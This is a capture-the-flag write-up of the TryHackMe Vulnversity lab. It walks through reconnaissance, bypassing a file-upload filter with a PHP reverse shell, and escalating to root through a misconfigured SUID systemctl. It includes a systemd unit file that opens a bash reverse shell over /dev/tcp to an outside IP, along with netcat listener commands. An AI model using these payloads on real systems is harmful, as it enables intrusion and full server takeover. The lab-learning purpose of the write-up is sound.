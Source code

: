 # Vulnversity Room - CTF

This weekend I completed the Vulnversity room. 
This room was an introductory room that gave guidance on where to look and stepped through the point of getting a reverse shell operating.
From there, the priviledge escalation was left up to me to work out. 

The target was a webserver, the exploitation based was based on PHP. The web server had a PHP upload portal where I was able to upload a reverse PHP shell, then through this shell escalate my privilages to root using a misconfigured permission on the systemctl program within the Ubuntu server.

Notes: 
 - I have not included the basic setup steps for TryHackMe. 
 - Initially I started usinmg the provide 'AttackBox' from TryHackMe, but part way I ended up using my open Kali linux box connected via the VPN so my IP address and the target IP address IPs changed a few times throughout my process description below.

Here is how it went:

## Step 1: Reconnaissance

### Basic reconnaissance was performed using NMAP. 

The open ports discovered with NMAP:

![image](https://user-images.githubusercontent.com/60744763/120154230-ffc22900-c232-11eb-88a2-8df3177cc8b7.png)

Then I looked at the versions of the services with these open ports using the -sV flag with NMAP

![image](https://user-images.githubusercontent.com/60744763/120154311-18cada00-c233-11eb-9682-38c0e05c6c73.png)

We can see Apache running on port 3333, this will be our attack vector. 

### GoBuster to discover interesting folders on the web server

From here we use GoBuster to look for interesting directories on the web server. I  used a brute force method with different word lists.
After trying with a few word I found some interesting folders.

![image](https://user-images.githubusercontent.com/60744763/120154589-634c5680-c233-11eb-8896-7a0501b2bcee.png)

From here we discovered the 'internal' folder, browsing to this showed us an upload portal.

![image](https://user-images.githubusercontent.com/60744763/120154708-7a8b4400-c233-11eb-8603-b287a43fd81b.png)

*Note at this point I changed over to my Kali linux box and reset the target machine, as such the IP address changed.*

Now I looked for additional interseting folders within the /internal URI using GoBuster again.
This found another folder called uploads which looks interesting, likely the directory where the upload portal drops files. 

## Step 2: Attempt to deliver a pay load and compromise the server

I used Burp to try and find out what types of file extensions can be uploaded, hoping for a PHP based file. 
Using Burp's sniper attack allowed me to try various file extensions very quickly. 
 
![image](https://user-images.githubusercontent.com/60744763/120155034-cf2ebf00-c233-11eb-88b3-a73405d0430d.png)

This identified that .phtml files can be uploaded, see above.

### Now we deliver the payload:

I uploaded a php reverse shell as a .phtml file using the target's upload page. 
I edited the reverse shell script variables so it points back to my Kali linux’s IP and port. 
The reverse shell was from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

Then I setup a netcat listener with this command: `nc -lvnp 1234`
This will listen for an incoming connection on port 1234. 
*Note the php reverse shell must be set with this port and my IP address so it can make a connection.*

Then I went to the url http://10.10.151.175:3333/internal/uploads/php-reverse-shell.phtml to run the script I just uploaded. 

Seconds later I received a connection on my netcat listener!
We can see below the reverse shell has made a connection back to my kali box.

![image](https://user-images.githubusercontent.com/60744763/120155466-33ea1980-c234-11eb-81fe-00558f14202d.png)

And now I have shell access! 

Searching around on this server, I found the first flag in the user's home folder in a file called 'user.txt'.

![image](https://user-images.githubusercontent.com/60744763/120173380-533e7200-c247-11eb-9091-768cf087f58d.png)

## Step 3: Privilege Escalation

Now we want to attemp to get root access. I will look for files with the SUID bit set, maybe one of them can be exploited.

I used the command `find . -perm /4000` to files with the SUID permissions set. 
This showed that `systemctl` had the sticky-bit set, which is not normal. Since a normal user can stop, start and even create services.

At this point my plan is to create a service that launches a shell which I can access with the systemctl command. 
Now researching how to do this...

I found this article which discusses making a reverse bash shell service to exploit systemctl.
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49 


I created a file called root.service file as below, which will be my service file:
```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

I named the file with a phtml extension and uploaded it through the site (this was quicker than using the nc terminal to create the service file).

Then I renamed the uploaded file from my active shell on the webserver to root.service. 
I ran the following command to create the appropriate symlinks and allow the system to run the service: 
`systemctl enable /var/www/html/internal/uploads/root.service`

![image](https://user-images.githubusercontent.com/60744763/120155982-cc809980-c234-11eb-94ba-2cb1ab4b9bb9.png)

Now we have created a new service which should launch a reverse shell back to my kali box.

At this point I opened another netcat listener on port 9999 (as per the root.service) on my Kali box. 
After this I started the service on the webserver shell with the command `systemctl start root.service`

Presto! The service connected back to my Kali machine with the reverse shell as root. See below...

![image](https://user-images.githubusercontent.com/60744763/120156128-005bbf00-c235-11eb-9ddf-8ac81e94314a.png)

The flag was found in the folder /root/




